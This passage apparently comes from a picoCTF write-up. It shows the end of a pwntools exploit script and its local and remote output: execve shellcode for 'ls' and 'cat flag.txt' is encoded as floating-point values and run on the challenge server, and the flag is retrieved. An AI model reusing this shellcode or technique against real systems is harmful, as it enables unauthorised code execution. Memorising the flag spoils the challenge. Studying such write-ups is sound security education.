 ```python=
r.recvuntil(b'Provide size. Must be < 5k:')
r.sendline(str(len(payload)).encode())
r.recvline()
r.sendline(payload.encode())
print(r.recvall().decode())
```
:::spoiler Local Result
```bash
$ python exp.py
[+] Starting local process '/home/sbk6401/anaconda3/envs/CTF/bin/python': pid 19347
[*] ls shellcode: b'H\xb8\x01\x01\x01\x01\x01\x01\x01\x01PH\xb8.cho.mr\x01H1\x04$H\x89\xe7hmr\x01\x01\x814$\x01\x01\x01\x011\xf6Vj\x08^H\x01\xe6VH\x89\xe61\xd2j;X\x0f\x05'
[*] cat flag.txt shellcode: b'j\x01\xfe\x0c$H\xb8/bin/catPH\x89\xe7h.txtH\xb8\x01\x01\x01\x01\x01\x01\x01\x01PH\xb8b`u\x01gm`fH1\x04$1\xf6Vj\x0c^H\x01\xe6Vj\x10^H\x01\xe6VH\x89\xe61\xd2j;X\x0f\x05'
[+] Receiving all data: Done (334B)
[*] Process '/home/sbk6401/anaconda3/envs/CTF/bin/python' stopped with exit code 0 (pid 19347)
AssembleEngine([7.748604185565308e-304, 7.001521162788231e+194, 1.773290430551938e-288, 1.0748503232447379e-301, 7.748605141607601e-304, 1.776650735790609e-302, 3.6509617888350745e+206, 4.1942076e-316])
File written. Running. Timeout is 20s
Run Complete
Stdout b'd8\nexp-nickchen.py\nexp.py\nflag.txt\nserver.py\nsource\n'
Stderr b''

[+] Starting local process '/home/sbk6401/anaconda3/envs/CTF/bin/python': pid 19366
[+] Receiving all data: Done (340B)
[*] Process '/home/sbk6401/anaconda3/envs/CTF/bin/python' stopped with exit code 0 (pid 19366)
AssembleEngine([8.191473375206089e-79, 3.775826202043335e+79, 1.1205295651588473e+253, 7.748604185565308e-304, 2.460307022775963e+257, 1.7734484618746183e-288, 4.089989556334856e+40, 1.7766596360849696e-302, 3.6509617888350745e+206, 4.1942076e-316])
File written. Running. Timeout is 20s
Run Complete
Stdout b'picoCTF{test_132}'
Stderr b''
```
:::
:::spoiler Remote Result
```bash
$ python exp.py REMOTE
[+] Opening connection to mercury.picoctf.net on port 48700: Done
[*] ls shellcode: b'H\xb8\x01\x01\x01\x01\x01\x01\x01\x01PH\xb8.cho.mr\x01H1\x04$H\x89\xe7hmr\x01\x01\x814$\x01\x01\x01\x011\xf6Vj\x08^H\x01\xe6VH\x89\xe61\xd2j;X\x0f\x05'
[*] cat flag.txt shellcode: b'j\x01\xfe\x0c$H\xb8/bin/catPH\x89\xe7h.txtH\xb8\x01\x01\x01\x01\x01\x01\x01\x01PH\xb8b`u\x01gm`fH1\x04$1\xf6Vj\x0c^H\x01\xe6Vj\x10^H\x01\xe6VH\x89\xe61\xd2j;X\x0f\x05'
[+] Receiving all data: Done (334B)
[*] Closed connection to mercury.picoctf.net port 48700
AssembleEngine([7.748604185565308e-304, 7.001521162788231e+194, 1.773290430551938e-288, 1.0748503232447379e-301, 7.748605141607601e-304, 1.776650735790609e-302, 3.6509617888350745e+206, 4.1942076e-316])
File written. Running. Timeout is 20s
Run Complete
Stdout b'd8\nflag.txt\nserver.py\nsource.tar.gz\nxinet_startup.sh\n'
Stderr b''

[+] Opening connection to mercury.picoctf.net on port 48700: Done
[+] Receiving all data: Done (362B)
[*] Closed connection to mercury.picoctf.net port 48700
AssembleEngine([8.191473375206089e-79, 3.775826202043335e+79, 1.1205295651588473e+253, 7.748604185565308e-304, 2.460307022775963e+257, 1.7734484618746183e-288, 4.089989556334856e+40, 1.7766596360849696e-302, 3.6509617888350745e+206, 4.1942076e-316])
File written. Running. Timeout is 20s
Run Complete
Stdout b'picoCTF{vr00m_vr00m_48f07b402a4020e0}\n'
Stderr b''
```